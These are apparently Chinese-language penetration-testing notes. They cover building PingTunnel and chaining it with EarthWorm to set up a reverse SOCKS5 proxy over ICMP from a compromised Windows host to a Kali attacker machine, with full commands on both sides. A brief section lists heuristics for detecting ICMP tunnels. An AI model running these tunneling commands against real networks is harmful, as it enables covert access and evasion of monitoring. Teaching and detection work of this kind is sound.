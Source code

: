    原来的Ping Tunnel在：[Ping Tunnel – Freecode (sourceforge.net)](http://freshmeat.sourceforge.net/projects/ptunnel/)

   下载源代码，解压：`tar -zxvf PingTunnel-0.72.tar.gz`

   然后用make安装，会缺少pcap.h，要装libpcap：https://www.tcpdump.org/release/libpcap-1.10.1.tar.gz

   然后使用：`./configure && make && make install`即可。

   还得安装两个：`apt-get install flex bison`

   然后`make && make install`即可安装PTunnel。

   推荐上一个PingTunnel，配合EW非常好用。

   Kali上首先执行EW：

   ```bash
   ./ew_for_linux64 -s rcsocks -l 10080 -e 8898
   ```

   Kali再启动PingTunnel服务：

   ```bash
   sudo ./pingtunnel -type server -key 123 -nolog 1 -noprint 1
   ```

   被攻击的机器上先启动PingTunnel：

   ```powershell
   pingtunnel.exe -type client -l 127.0.0.1:9999 -s 192.168.140.128 -t 192.168.140.128:8898 -sock5 -1 -noprint 1 -nolog 1 -key 123
   ```

   再启动EW：

   ```powershell
   ew_for_Win.exe -s rssocks -d 127.0.0.1 -e 9999
   ```

   此时就通过PingTunnel建立起来了Sock5的代理关系。

   注意Proxychains应该使用10080端口作为sock5端口：

   ![image-20220421143825763](./image-20220421143825763.png)

##### 防范ICMP隧道

许多服务器都会设置不回复ICMP报文，但是允许己方ICMP报文发出。

检测ICMP隧道的方式有：

1. 检测同一来源的ICMP数据包的数量。一个正常的ping不会在短时间内发送过多的ICMP数据包
2. 找Payload大于64位的ICMP数据包
3. 找响应包的Payload与请求包的Payload不一致的ICMP数据包
4. 检查ICMP数据包的协议标签。例如ICMPTunnel会在所有的ICMP Payload前添加"TUNL"标识隧道。

### 传输层隧道技术

这方面包括了TCP隧道、UDP隧道和常规端口转发。

#### lcx端口转发
